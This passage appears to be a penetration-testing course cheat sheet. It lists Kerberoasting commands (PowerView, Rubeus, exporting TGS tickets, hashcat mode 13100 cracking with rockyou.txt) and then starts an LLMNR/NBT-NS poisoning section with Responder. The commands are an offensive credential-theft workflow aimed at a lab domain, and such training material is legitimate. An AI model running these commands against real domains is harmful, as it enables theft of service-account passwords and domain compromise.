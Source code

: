 `cat sqldev_tgs_hashcat`

    Used to view the prepared hash from a Linux-based host.

`hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt`

    Used to crack the prepared Kerberos ticket hash (`sqldev_tgs_hashcat`) using a wordlist (`rockyou.txt`) from a Linux-based host.

`Import-Module .\PowerView.ps1 Get-DomainUser * -spn | select samaccountname`

    Uses PowerView tool to extract `TGS Tickets` . Performed from a Windows-based host.

`Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat`

    PowerView tool used to download/request the TGS ticket of a specific ticket and automatically format it for `Hashcat` from a Windows-based host.

`Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation`

    Exports all TGS tickets to a `.CSV` file (`ilfreight_tgs.csv`) from a Windows-based host.

`cat .\ilfreight_tgs.csv`

    Used to view the contents of the .csv file from a Windows-based host.

`.\Rubeus.exe`

    Used to view the options and functionality possible with the tool `Rubeus`. Performed from a Windows-based host.

`.\Rubeus.exe kerberoast /stats`

    Used to check the kerberoast stats (`/stats`) within the target Windows domain from a Windows-based host.

`.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap`

    Used to request/download TGS tickets for accounts with the `admin` count set to `1` then formats the output in an easy to view & crack manner (`/nowrap`) . Performed from a Windows-based host.

`.\Rubeus.exe kerberoast /user:testspn /nowrap`

    Used to request/download a TGS ticket for a specific user (`/user:testspn`) the formats the output in an easy to view & crack manner (`/nowrap`). Performed from a Windows-based host.

`Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes`

    PowerView tool used to check the `msDS-SupportedEncryptionType` attribute associated with a specific user account (`testspn`). Performed from a Windows-based host.

`hashcat -m 13100 rc4_to_crack /usr/share/wordlists/rockyou.txt`

    Used to attempt to crack the ticket hash using a wordlist (`rockyou.txt`) from a Linux-based host .

LLMNR/NTB-NS Poisoning

`responder -h`

    Used to display the usage instructions and various options available in `Responder` from a Linux-based host.
